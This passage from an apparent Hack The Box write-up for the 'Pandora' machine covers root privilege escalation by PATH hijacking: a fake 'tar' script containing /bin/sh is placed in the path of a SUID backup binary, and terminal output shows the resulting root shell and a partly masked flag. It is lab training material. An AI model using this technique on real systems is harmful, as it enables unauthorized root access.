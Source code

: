 Here is an interesting string. it uses `tar` command to make a zip archive:
```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```


Here are the scenario i had:
+ If we runf the `/usr/bin/pandora_backup` we're running it as `matt` user so it will use the matt's user `$PATH` variable:
+ If we change the `$PATH` to somewhere that there is a custom `tar` binary it will execute that instead of main `tar` `/usr/bin/tar`:
+ we can write arbitrary command to that tar file (like a reverse shell or a simple `/bin/sh`)
+ When that custom `tar` binary executes, it will return a reverse shell and because it's effective user changes to `root` user it will be a root shell!

Let do this:
```bash
#1
matt@pandora:/home/matt$ cd ~

matt@pandora:/tmp/.kk$ echo "/bin/sh" > tar
matt@pandora:/tmp/.kk$ chmod +x tar
matt@pandora:/tmp/.kk$ PATH=$(pwd)
```

After executing the `/usr/bin/pandora_backup` it will lead to a root shell `/bin/sh`
```bash
matt@pandora:~$ /usr/bin/pandora_backup                                                                                                                                                               
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
uid=0(root) gid=1000(matt) groups=1000(matt)
Backup successful!
Terminating program!
matt@pandora:~$ echo /bin/sh > tar
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# /usr/bin/id
uid=0(root) gid=1000(matt) groups=1000(matt)
```

And here is the root flag
```bash
cd /root
/usr/bin/cat root.txt
7e51************************b595
```

Written by [KRyptonZ](https://www.hackthebox.eu/home/users/profile/372989)